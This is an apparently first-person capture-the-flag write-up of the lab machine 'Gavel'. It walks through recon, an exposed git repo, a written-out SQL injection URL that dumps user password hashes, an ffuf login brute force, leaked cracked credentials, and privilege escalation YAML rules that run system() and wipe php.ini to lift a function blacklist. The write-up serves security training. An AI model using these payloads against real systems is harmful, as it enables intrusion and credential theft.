```
Scope:
10.10.11.97
```

# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -p- --min-rate=5000 -Pn gavel.htb -T5 -vvvv

PORT      STATE    SERVICE        REASON      VERSION
22/tcp    open     ssh            syn-ack     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http           syn-ack     Apache httpd 2.4.52
|_http-favicon: Unknown favicon MD5: 954223287BC6EB88C5DD3C79083B91E1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-git: 
|   10.10.11.97:80/.git/
|     Git repository found!
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: .. 
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Gavel Auction
```

Right away I notice that a `git` repo was found, let's enumerate it with `git-dumper`.

## git-dumper





In order to view the source code easier I launched `vscode` and viewed it there.



Some interesting code I found was the following:



I would need to create a user first and check it out on the website to fully understand the inner workings, but at first glance this looks like a **SQL Injection**.

## 80/TCP - HTTP

I went over to the website and registered a new *tester* account:




Once registered I logged in:



I started bidding on some auctions and once I had won a couple I could view them in my inventory:



When we change the parameters from POST to GET the URL looks as follows:



I tried injecting the `sort` parameter since that's what appeared to be injectable from our source code review.



This way we could query all parts of the item:



# Exploitation
## Blind SQLi - Intended Method

I turns out that in order to successfully inject any SQLi queries here we will have to attack *both* params. Thus we need to change the following:

```sql
SELECT $col FROM inventory WHERE user_id = ? ORDER BY item_name ASC
```

To this somehow:

```sql
SELECT x FROM (SELECT CONCAT(username, 0x3a, password) AS 'x' FROM users) y;
```

When we put this all together it looks as follows:

```sql
http://gavel.htb/inventory.php?user_id=x`+FROM+(SELECT+CONCAT(username,0x3a,password)+AS+`'x`+from+users)y;--&sort=\?;--%00
```



Using the above query we're able to acquire the password hash for *auctioneer*.

This hash is then easily cracked using `john`:



```
auctioneer
midnight1
```

## Ffuf - Alternative Method

Alternatively we could just brute force the password. After having found the *auctioneer* username inside the source code we can attempt a brute-force attack:

```bash
ffuf -w /usr/share/wordlists/rockyou.txt:FUZZ -u "http://gavel.htb/login.php" -X POST -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: gavel_session=59o57iuco1ickd6da1tgt7q075" -d "username=auctioneer&password=FUZZ" -fr "Invalid username or password."
```



## Admin Panel

We can now use the found credentials to log into the admin panel using the *auctioneer* admin user:





Inside the **Admin Panel** we can edit the active bids:



I then went ahead and tested out the functionality here by supplying some sample text and analysed it using `caido`:



# Foothold
## Shell as www-data

I then tried out the following payload inside the *rule* form.



Once we then place a bid we get a reverse shell:



## Lateral Movement to auctioneer 

Once we got a reverse shell we can easily `su` to *auctioneer* using the same password that we used to log into the website:



### user.txt



During further enum I noticed that the user is part of a non-default group:



I am not allowed to run `sudo` though:



I transferred over `pspy64` and ran it:



I found a process running under *root* which was using the `auction_watcher.sh` script.

# Privilege Escalation
## gavel-util

I started checking for other files and found this binary related to `gavel`:



I ran the binary and found the following:



This binary is owned and run as *root* so we could try and abuse it. I tried the following `yaml` file:

```yaml
name: x
description: x
image: x
price: 1
rule_msg: x
rule: "system('id'); return false;"
```



Using the `system()` command was seen as "illegal".

I could find that all the `php` shell commands were blacklisted in the `/opt/gavel/.config/php/php.ini` file:



This meant I'd need to use `gavel-util` to write a malicious rule as follows:

```yaml
name: "Test"
description: "Testing test"
image: "https://sample.website"
price: 10000
rule_msg: "Your bid must be 20% higher than the previous bid"
rule: "file_put_contents('/opt/gavel/.config/php/php.ini', '');"
```




---